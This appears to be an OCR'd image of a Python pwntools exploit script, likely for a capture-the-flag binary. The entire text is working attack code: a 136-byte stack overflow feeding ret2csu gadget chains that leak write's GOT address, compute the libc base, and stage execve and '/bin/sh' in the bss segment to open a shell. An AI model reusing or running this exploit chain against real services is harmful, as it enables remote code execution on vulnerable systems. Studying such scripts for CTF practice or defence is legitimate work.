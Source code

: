 ```python

writeGotAddr = elf.got['write']
readGotAddr = elf.got['read']

def genPayload( arg1, funcAddr, rbx = 0, rbp = 1, arg2 = 0, ret = mainAddr, arg3 = 0):
    """
    use the two gadgets to launch a call
    
    Arguments:
        arg1 {b} -- 1st parameter for call, rdi(edi), i.e. r12(d)
        funcAddr {b} -- function addres, i.e. r15
    
    Keyword Arguments:
        rbx {b} -- may not be used here (default: {0})
        rbp {b} -- may not be used here (default: {1})
        arg2 {b} -- 2nd parameter for call, rsi, i.e. r13 (default: {0})
        arg3 {b} -- 3rd parameter for call, rdx, i.e. r14 (default: {0})
        ret {b} -- return address after payload execution
    """
    
    payload = b'A' * 136 + p64(gadPopToReg) + p64(rbx) + p64(rbp) + p64(arg1) + p64(arg2) + p64(arg3) + p64(funcAddr)
    payload += p64(gadMovToReg) + b'A' * 56 +p64(ret)
    return payload

p.recvuntil("Hello, World\n")

# Get the address of write in libc and then, libc
# write prototype: write(int fd, const void * buf, size_t count)
payload1 = genPayload(1, writeGotAddr, arg2 = writeGotAddr, arg3 = 8)
f1 = open("./payload1", "wb")
f1.write(payload1)
f1.close()
p.send(payload1)
sleep(1)

writeAddrInLibc = u64(p.recv(8))
print("[*] Write Addr in libc:", hex(writeAddrInLibc))

libc.address = writeAddrInLibc - libc.symbols['write']
print("[*] libc Addr:", libc.address)

# systemAddr = libc.symbols['system']
systemAddr = libc.symbols['execve']
print("[*] system Addr:", systemAddr)

p.recvuntil("Hello, World\n")

# Read addr(system()) and "/bin/sh" to bss seg
# read prototype: read(int fd, void *buf, size_t count)
# read(0, bssAddr, 16)
payload2 = genPayload(0, readGotAddr, arg2 = bssAddr, arg3 = 16)
p.send(payload2)
print("[*] Sent Payload2")
sleep(1)

p.send(p64(systemAddr))
p.send("/bin/sh\0")
sleep(1)

p.recvuntil("Hello, World\n")


```